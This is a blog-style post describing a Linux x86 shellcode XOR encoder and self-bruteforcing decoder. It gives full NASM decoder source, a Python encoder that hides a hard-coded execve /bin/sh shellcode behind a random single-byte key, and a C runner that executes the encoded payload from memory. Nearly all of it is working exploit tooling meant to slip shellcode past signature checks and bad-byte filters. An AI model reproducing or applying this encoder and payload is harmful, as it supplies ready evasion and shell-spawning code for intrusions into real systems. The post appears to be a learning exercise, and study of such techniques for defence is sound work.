 ```yaml
---
title:  "Linux x86 one byte self bruteforcing shellcoder encoder/decoder"
---
```


I was looking from my old code and I found a shellcode encoder experiment I did some years ago. 


Basically, the encoder takes as input a shellcode, add a NOP opcode (0x90) in front of it, parses it's bytes and generate a set of bytes not used by the shellcode, then it picks one at random. Every shellcode's bytes is the xorred with this key.


The decoder perform a sort of self-bruteforcing: it loops every possible byte and try to XOR it against the first shellcode byte, if the opcode it's == 0x90, the decoder found the key and can start decoding it.


## decoder
```nasm
global _start

section .text
_start:
    jmp short shelly ; JMP CALL POP trick

stub:
    pop esi; address of shellcode in memory 
    xor ecx, ecx ; bytes counter 
    xor eax, eax ; eax = 0

findkey:
    inc ecx     ; ecx loops every possible byte. 
    push ecx    ; save ecx so it can be restored later
    xor cl, byte [esi] ; xor cl with the byte pointed by esi, in other words, with the shellcode byte
    cmp cl, 0x90 ; if cl != 0x90 
    pop ecx      ; restore ecx 
    jne findkey  ; try next byte
    
    ;ELSE key found
    
    mov al, cl ; al stores the correct key     
    mov al, cl 
    mov ah, cl 
    mov bx, ax 
    rol eax, 0x10 
    mov ax, bx  ; each byte of EAX is a the byte-key

    mov cl, len ; cl keeps the length of the shellcode and acts as LOOP decreasing counter 
    

    add esi, ecx ; esi stores the shellcode length 
    dec ecx      ; needed for handling the loop below 
decode:
    dec esi      
    dec esi 
    dec esi
    dec esi      ; in this way ESI points to the correct 4-bytes to decode

    dec ecx      
    dec ecx
    dec ecx      ; needed for handling the loop 

    mov ebx, eax        ; save the key  
    xor eax, [esi]      ; decrypt 4 bytes and save it in EAX
    push eax            ; save decrypted bye
    mov eax, ebx        ; restore the key 
    loop decode         ; decrypt until ECX = 0  
    call esp  ; execute the decrypted shellcode! 

shelly:
    call stub
   ; pase below the encoded bytes with encoder.py 0x28
   shellcode: db 0xb9,0x18,0xe9,0x79,0x41,0x06,0x06,0x5a,0x41,0x41,0x06,0x4b,0x40,0x47,0xa0,0xca,0x79,0xa0,0xcb,0x7a,0xa0,0xc8,0x99,0x22,0xe4,0xa9,0xb9,0xb9,0x29
    len equ $-shellcode 

```

## encoder
```python
#!/usr/bin/python2
import random 
import sys





shellcode =  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

shellcode = '\x90' + shellcode


#generate a list of all possible bytes 

bytez = bytearray.fromhex(''.join(['%02x' % i for i in range(1,256)]))

#get a list of bytes used by the shellcode 
shellarray = bytearray(shellcode)

padding = (len(shellarray) % 4)
shellcode += '\x90' * padding  
keys =  set(bytez) - set(shellarray)
keys = bytearray(keys)
#select a random key 
key = random.choice(keys)
print("=" *10)
print "decryption key: " ,  hex(key)

print("=" *10)

encoded = ""
encoded2 = ""

#encrypt the shellcode with the random byte-key

for x in bytearray(shellcode) :
    y = x ^ key
    encoded += '\\x'
    encoded += '%02x' % y
    encoded2 += '0x%02x,' %y

#print to screen the encoded shellcode in two formats 
print("=" *10)
print("C version:\n\n ")
print '"' + encoded + '"' + "\n"
print("=" *10)
print("NASM version\n\n")
print encoded2 + '0x%02x' % key + "\n"
print("=" *10)
print 'Len: %d' % len(bytearray(shellcode))
```



## shellcode runner

```c
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\xeb\x35\x5e\x31\xc9\x31\xc0\x41\x51\x32\x0e\x80\xf9\x90\x59\x75\xf6\x88\xc8\x88\xc8\x88\xcc\x66\x89\xc3\xc1\xc0\x10\x66\x89\xd8\xb1\x1d\x01\xce\x49\x4e\x4e\x4e\x4e\x49\x49\x49\x89\xc3\x33\x06\x50\x89\xd8\xe2\xf0\xff\xd4\xe8\xc6\xff\xff\xff\xb9\x18\xe9\x79\x41\x06\x06\x5a\x41\x41\x06\x4b\x40\x47\xa0\xca\x79\xa0\xcb\x7a\xa0\xc8\x99\x22\xe4\xa9\xb9\xb9\x29";

                   
                  int main(void)
{
    fprintf(stdout,"Length: %d\n",strlen(shellcode));
    (*(void(*)()) shellcode)();
    return 0;
}

```
